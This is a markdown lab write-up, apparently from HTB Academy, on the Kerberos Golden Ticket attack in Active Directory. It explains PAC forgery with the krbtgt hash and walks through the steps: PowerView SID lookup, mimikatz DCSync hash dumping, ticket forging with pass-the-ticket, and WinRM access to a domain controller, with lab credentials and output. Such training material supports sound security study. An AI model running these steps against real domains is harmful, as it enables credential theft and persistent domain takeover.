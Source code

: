 # Golden Ticket

- The **Golden Ticket** attack enables attackers to forge and sign TGTs (Ticket Granting Tickets) using the **krbtgt** account's password hash. When these tickets get presented to an AD server, the information within them will not be checked at all and will be considered valid due to being signed with krbtgt account's password hash. For example, it is possible to sign a ticket for a user that does not exist, such as **DoesNotExist**, have the ticket also say they are a Domain Administrator, and request a TGS (Ticket Granting Service) ticket which enables them to access remote machines. For stealth reasons, it is almost always better to utilize users that exist in the domain. However, putting fake information in the ticket can be a great way to show the impact and the lack of monitoring an organization has around these events. 

- One of the scariest things about the Golden Ticket attack is how often pentesters will gain access to this key; when performing **DCSYNC (using Mimikatz) or SecretsDump (using Impacket)**, the key is KRBTGT's NTLM hash. This account is special because changing its password has to be done twice and cannot be done in rapid succession. The AD Forest must reach full convergence, meaning the change has to replicate across the entire domain before it can be changed again. This is because this key is used for Domain Controllers to authenticate with each other! It should happen within 10 hours, but organizations typically wait 24 hours to minimize the chance of any issue. Within that time Window, if the attacker notices it changed and they grab it again, the process will have to be repeated. 


## Theory

- Following the **TGT request (AS-REQ)**, the Domain Controller sends the user back their TGT. The TGT is a piece of data that contains information about the user. All this information is contained in the **PAC (Privilege Attribute Certificate)**.

- The PAC is copied into each TGS ticket so that service accounts know who they are dealing with. Therefore, this information must be adequately protected so users cannot arbitrarily change it. 

- Domain Controllers use the key of the **krbtgt** account to encrypt TGTs; therefore, it is necessary to know the password of this account to modify a TGT. Within any AD environment, **krbtgt** is the most sensitive and vital account since it ensures that users belong to their appropriate/specific groups. 

- But what happens if an attacker steals the secret of the **krbtgt** account? Well, they can decipher any TGT, thus the PAC within it, arbitrarily modify its information (for example, by making it look like a user belongs to the Domain Admins group) and encrypt it again using the secret of **krbtgt**. This forged ticket is called a **Golden Ticket**. 

- Forging a golden ticket is an excellent technique to maintain persistence within an AD environment. Once full domain compromise is achieved, an attacker can extract the **NTLM hash of the krbtgt account** using **DCSync (or from the NTDS.DIT file using a variety of methods)**. This includes the **domain name, domain SID, name and RID of the account to impersonate (i.e., RID 500 for the built-in administrator account)**, and the RIDs of any groups the account should belong to; once we attain all four pieces of information, a Kerberos ticket can be forged for the target account. 

- Using a **Pass the Ticket** attack, we can import the golden tick to the current session to use tools in the context of the impersonated account. As an attacker, you can forge a ticket to impersonate a sensitive user, who, although privileged in access, may not be a member of heavily monitored groups, such as **Domain Admins and Enterprise Admins**. 


## Windows


Different elements are needed to forge a Golden Ticket: 

1. Domain Name
2. Domain SID
3. Username to Impersonate
4. KRBTGT's hash

- We already know the domain name; let's get the domain's SID by using **Get-DomainSID from PowerView**: 

### Retrieving Domain SID 

- RDP to 10.129.90.25 with user "htb-student" and password "HTB_@cademy_stdnt!"

	xfreerdp /v:10.129.90.25 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution /cert-ignore


	PS C:\Tools> Import-Module .\PowerView.ps1
	PS C:\Tools> Get-DomainSID
	S-1-5-21-1870146311-1183348186-593267556
	

![Get SID](/Ticket-Abuse/images/Get-SID.png) 

- Then, we need to have a compromised **krbtgt** account one way or another to get its NTLM hash. We can use **mimikatz** to forge a Golden Ticket when we have this information. If we compromised an account with DCSync privileges, we can use mimikatz to get the **krbtgt** hash using the following command. 

### Running Mimikatz get the KRBTGT Hash 


	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
	  

	mimikatz # lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
	

- We now have the **krbtgt** NTLM hash, which is **c0231bd8a4a4de92fca0760c0ba9e7a6**. To impersonate the Administrator account, we can use mimikatz to forge the Golden Ticket as follows: 

### Forging the Golden Ticket


	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:c0231bd8a4a4de92fca0760c0ba9e7a6 /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: c0231bd8a4a4de92fca0760c0ba9e7a6 - rc4_hmac_nt
	Lifetime  : 1/14/2024 3:59:03 PM ; 1/11/2034 3:59:03 PM ; 1/11/2034 3:59:03 PM
	-> Ticket : ** Pass The Ticket **

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
	
- As we see on the last line (before exit), the Golden Ticket has been created and submitted for the current session. We can double-check this using the **klist command**.


### List the Golden Ticket in the Current Session

![klist](/Ticket-Abuse/images/klist.png) 

- So now have a valid TGT indicating we are **Administrator** and stating that we belong to several groups, including **Domain Admins**. If we need to request a service, we'll ask for a TGS ticket using this TGT, and a copy of the forged PAC will be embedded in the TGS ticket. For example, if we want to access a server using WinRM, we'll have a remote shell as **Administrator**. 


### Using WinRM with the Golden Ticket to Connect to DCO1

	PS C:\Tools> Enter-PSSession dc01
	

![Admin](/Ticket-Abuse/images/admin.png) 

- And if we come back to our original shell, we can see that we now have a TGS ticket for the **HTTP/dc01 SPN as Administrator**. 


### Reviewing the Ticket information 

![Tickets](/Tucket-Abuse/images/tickets.png) 


